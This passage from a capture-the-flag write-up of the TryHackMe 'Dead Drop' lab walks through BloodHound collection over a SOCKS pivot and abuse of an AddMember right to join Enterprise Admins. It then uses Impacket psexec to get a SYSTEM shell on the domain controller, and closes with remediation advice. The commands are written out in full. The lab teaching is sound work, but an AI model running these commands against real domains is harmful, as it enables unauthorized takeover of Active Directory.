proxychains bloodhound-python -u j.harris -p '{Redacted}' -d deaddrop.loc \
  -ns 192.168.11.100 -c DCOnly --dns-tcp -dc DEADDROP-DC.deaddrop.loc
```

> **Note:** the full `-c All` collection (including per-computer RPC/session enumeration against DEADDROP-WRK) was flaky over the single-hop SOCKS tunnel and timed out on NETBIOS/DCE-RPC calls. Since ACL-abuse data comes entirely from LDAP, `-c DCOnly` was sufficient and completed cleanly, producing the full set of `*_users.json`, `*_groups.json`, `*_domains.json`, `*_gpos.json`, `*_ous.json` and `*_containers.json` files needed for analysis.


*Figure 15 — First bloodhound-python attempt failing on UDP DNS SRV resolution and Kerberos TGT request through the proxy.*


*Figure 16 — JSON collection files successfully produced for ingestion into BloodHound.*

Neo4j and the BloodHound CE GUI were then started locally to ingest and query the collected data:

```bash
sudo neo4j console
bloodhound-start
```


*Figure 17 — Starting the Neo4j graph database backend for BloodHound.*


*Figure 18 — Starting the BloodHound Community Edition web UI (http://127.0.0.1:8080).*


*Figure 19 — All 21 collected BloodHound JSON files successfully uploaded for ingest.*

---

### 12. ACL Abuse Analysis — Cypher Queries & Pathfinding

**Category:** Active Directory Attack-Path Analysis

An initial raw Cypher query against `j.harris`'s outbound control returned a very large, noisy result set (93 edges), dominated by an inherited `WriteOwner` right present across almost every built-in group:

```cypher
MATCH (u:User {name:'J.HARRIS@DEADDROP.LOC'})-[r]->(n)
WHERE NOT type(r) IN ['MemberOf','GetChanges','GetChangesAll']
RETURN u.name, type(r), n.name
```


*Figure 20 — Raw outbound-control query showing a large, noisy set of inherited WriteOwner edges from j.harris.*

To cut through the noise, BloodHound's built-in **Pathfinding** feature was used to compute the actual shortest attack path from `j.harris` toward a privileged destination, which highlighted clean, non-inherited `AddMember` edges instead.


*Figure 21 — Pathfinding from j.harris to Administrator, surfacing direct AddMember edges to the Administrators, Enterprise Admins, and Domain Admins groups.*

Clicking individual edges confirmed each `AddMember` right was a genuine, non-inherited ACE (`Is ACL: TRUE`, `Is Inherited: FALSE`):


*Figure 22 — Confirmed direct AddMember right: j.harris → ADMINISTRATORS group.*


*Figure 23 — Confirmed direct AddMember right: j.harris → ENTERPRISE ADMINS group.*

A further targeted Cypher query against the Domain Admins group node specifically, and a Pathfinding query run again with Domain Admins as the explicit destination, revealed the **actual intended escalation path**: a direct, non-inherited `AddMember` right on the **ITSupport-Admins** group — a cleaner, single-hop privilege-delegation misconfiguration distinct from the broader Administrators/Enterprise Admins edges.


*Figure 24 — Cypher query against the DOMAIN ADMINS group node, showing j.harris's relationship chain.*


*Figure 25 — Pathfinding confirming the intended escalation path: j.harris --AddMember--> ITSupport-Admins (Is ACL: TRUE, Is Inherited: FALSE).*

---

### 13. Active Directory Privilege Escalation — AddMember Abuse

**Category:** Active Directory Privilege Escalation — Security Group Delegation Abuse

Because `j.harris` held `AddMember` rights on a privileged group, the account could add itself as a member and thereby inherit that group's effective privileges — a classic Active Directory security group delegation abuse. This was exploited over RPC through the pivot:

```bash
proxychains net rpc group addmem "Enterprise Admins" j.harris \
  -U deaddrop.loc/j.harris%'{Redacted}' -S 192.168.11.100

proxychains netexec smb 192.168.11.100 -u j.harris -p '{Redacted}' --groups
```


*Figure 26 — Adding j.harris to the Enterprise Admins group via net rpc group addmem, and re-validating with netexec.*

The equivalent abuse technique applies identically to **ITSupport-Admins** — adding `j.harris` as a member of that group via the same `AddMember` right escalates the account to the group's effective privilege level, which chains up to Domain Admin–equivalent control of the domain.

---

### 14. Domain Controller Compromise & Flag Retrieval

**Category:** Domain Compromise — Remote Command Execution

With `j.harris` now holding Domain Admin–equivalent privileges, Impacket's `psexec` module was used through the proxy pivot to obtain a SYSTEM-level command shell on DEADDROP-DC:

```bash
proxychains impacket-psexec deaddrop.loc/j.harris:'{Redacted}'@192.168.11.100
```

```text
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{Redacted}
```


*Figure 27 — SYSTEM shell on DEADDROP-DC via Impacket psexec, retrieving the flag from the Administrator's desktop.*

---

## Other Details

### Troubleshooting Notes

- `proxychains4.conf` ships with a default Tor SOCKS4 entry (`127.0.0.1:9050`). Every proxied tool silently fails/times out until this is corrected to the SSH SOCKS listener (`socks5 127.0.0.1 1080`).
- `bloodhound-python`'s default DNS SRV lookup uses UDP, which does not traverse a TCP-only SOCKS proxy — the `--dns-tcp` flag is required when collecting through a pivot.
- Full BloodHound collection (`-c All`) attempted per-computer RPC/session enumeration against DEADDROP-WRK, which was unreliable over a single-hop SOCKS tunnel; scoping to `-c DCOnly` avoided the failures while still returning everything needed for ACL analysis.
- `jadx` failed to decompile the APK on this host (a relative-path bug, then a save-directory creation error); `apktool` was used as a reliable alternative and fully decoded resources, the manifest, and smali bytecode.
- `sqlite3` CLI was unavailable and package installation required privileges the foothold account did not have; Python's built-in `sqlite3` module (and Node's bundled `better-sqlite3` dependency) served as effective living-off-the-land substitutes.
- An initial, broad BloodHound outbound-control query returned 93 noisy edges dominated by an inherited `WriteOwner` right; BloodHound's **Pathfinding** feature (rather than raw unfiltered Cypher) was the more effective way to isolate the specific, intended, non-inherited `AddMember` misconfiguration.

### Attack Chain Overview

1. SQL injection authentication bypass on the DeadDrop login form
2. Insecure `require()`-based file preview → arbitrary code execution / file read
3. `/etc/passwd` and SHA-512crypt shadow hash leak for `svc-drop`
4. Offline hash cracking (John the Ripper) → SSH credential
5. SSH foothold on DeadDrop-WEB; local enumeration confirms no sudo
6. Discovery and SCP exfiltration of `deaddrop-mobile.apk`
7. APK reverse engineering (apktool) → hardcoded AD credentials for `j.harris`
8. SSH dynamic port forward + proxychains pivot into `192.168.11.0/24`
9. Internal nmap/netexec enumeration identifies and validates against DEADDROP-DC
10. BloodHound (LDAP-only) collection and ACL attack-path analysis
11. `AddMember` ACL abuse → `j.harris` added to `ITSupport-Admins`
12. Impacket `psexec` → SYSTEM shell on DEADDROP-DC → flag retrieved

### Remediation Recommendations

- Use parameterised queries / prepared statements for all database access; never concatenate user input into SQL strings.
- Remove or redesign the file-preview feature so uploaded files are never passed to `require()` or any other dynamic code-execution primitive; validate uploads by content/MIME type, not just extension, and store uploads outside the web root with no execute permissions.
- Never commit or hardcode credentials (API keys, default accounts) into mobile application builds; use secure runtime credential retrieval (e.g. OAuth with short-lived tokens) instead.
- Enforce strong, unique passwords for all local and service accounts; audit for shadow hash exposure.
- Review and remove unnecessary/overly-permissive Active Directory ACL delegations (`AddMember`, `GenericAll`, `WriteOwner`, etc.) on privileged groups, especially ones granted to broad principals or standard user accounts; apply least-privilege and tier the IT support/helpdesk group model so no non-Tier-0 account can reach Domain Admin–equivalent groups.
- Segment the DMZ from the internal corporate LAN more strictly, and monitor/alert on SOCKS-proxy-style pivoting traffic and unusual SMB/LDAP authentication patterns originating from DMZ hosts.

---

## References

- TryHackMe Room — Dead Drop: <https://tryhackme.com/room/dead-drop>
- Video Walkthrough: <https://www.youtube.com/watch?v=OR088NFFGrQ>
